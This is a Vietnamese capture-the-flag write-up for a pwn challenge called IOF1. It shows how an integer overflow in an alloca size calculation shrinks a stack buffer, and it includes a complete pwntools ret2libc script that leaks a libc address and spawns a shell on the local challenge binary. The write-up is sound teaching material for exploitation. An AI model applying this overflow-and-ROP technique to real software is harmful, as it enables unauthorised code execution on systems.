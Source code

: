<details>
<summary>IOF1 </summary>


**1. Tóm tắt đề:**

- Một file `iof1`
- Một file `ld-2.31.so`
- Một file `libc.so.6`
- Một file `source.c`

**2. Ý tưởng :**

- Đầu tiên ta sài `pwninit` để link với libc đề cho
- Tiếp theo ta đọc source.

![](https://i.imgur.com/4DzdGRt.png)

- Đề tạo biến `n` thuộc kiểu `unsigned long int`, sau đó gọi hàm `alloca()` để tạo buffer trên stack kế tiếp gọi hàm `read_str` để ghi vào buffer.
- Kế tiếp ta `checksec` để tìm hướng giải. Nhận thấy NX enable, PIE và Canary đều tắt do đó bài này minh thấy chỉ có giải bằng ret2libc

![](https://i.imgur.com/5O0tnvD.png)

- Để ret2libc thì hướng duy nhất là phải cho phải overflow `buffer` bằng hàm `read_str`. Hướng duy nhất để thực hiện là phải sài int overflow `n*8 ` ở hàm `alloca`
- Ta check thử manpage của alloca coi argument của nó nhận range là bao nhiêu để overflow cho đúng

![](https://i.imgur.com/H2lG0wy.png)

- Nó argument của nó thuộc kiểu `size_t`, ta google tiếp xem size_t là gì thì biết được nó đại khái đại diện cho kiểu dữ liệu lớn nhất mà máy mình chịu được. Vậy `size_t` là 8 byte đối với máy 64 bit (số không dấu)

![](https://i.imgur.com/3Nwi2pH.png)


- Kế tiếp ta tìm range của `unsigned long int ` cũng như range của số 8 byte không dấu, lên document ở đây đọc thì ta được thông tin như sau : 

![](https://i.imgur.com/JZJIo3E.png)

- Để biết chính xác mình viết code test trên máy mình. 

![](https://i.imgur.com/eRRubsM.png)

- Vậy nếu ta nhập n lớn hơn số trên thì sẽ bị overflow. Argument của hàm alloca() chỉ nhận 8 byte do đó nếu ta nhập n sao cho khi nhân 8 mà kết quả lớn hơn 8 byte thì nó chỉ nhận 8 byte cuối. Ta sẽ lợi dụng nó để overflow.
- Giả sử mình muốn kết quả của `n*8` là `0x10000000000000008` (mình chọn số này vì nó là số nhỏ nhất khi bị overflow mà chia hết cho 8, chọn khác cũng được) khi đó bị overflow hàm `alloca` sẽ nhận `0x0000000000000008` vậy ta chia 8 để biết n cần nhập là bao nhiêu. Tính đúng ta được kết quả là `0x2000000000000000` tức là `2305843009213693952`.
- Vậy kế tiếp ta chỉ cần viết script để ret2libc.
```python
from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

p = process(exe.path) 
p.sendlineafter(b'> ',b'2305843009213693952')

pop_rdi = 0x00000000004013e3 
payload = b'A'*40 +  p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'Enter your secret: ',payload) 
leak = p.readline()[:-1]
leak = u64(leak.ljust(8,b'\00'))

libc.address = leak - 492448 
p.sendlineafter(b'> ',b'2305843009213693952')

payload = b'A'*40 + p64(pop_rdi)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']) 
p.sendlineafter(b'Enter your secret: ',payload) 
p.interactive() 
```

- Chạy script trên ta có được shell.

</details>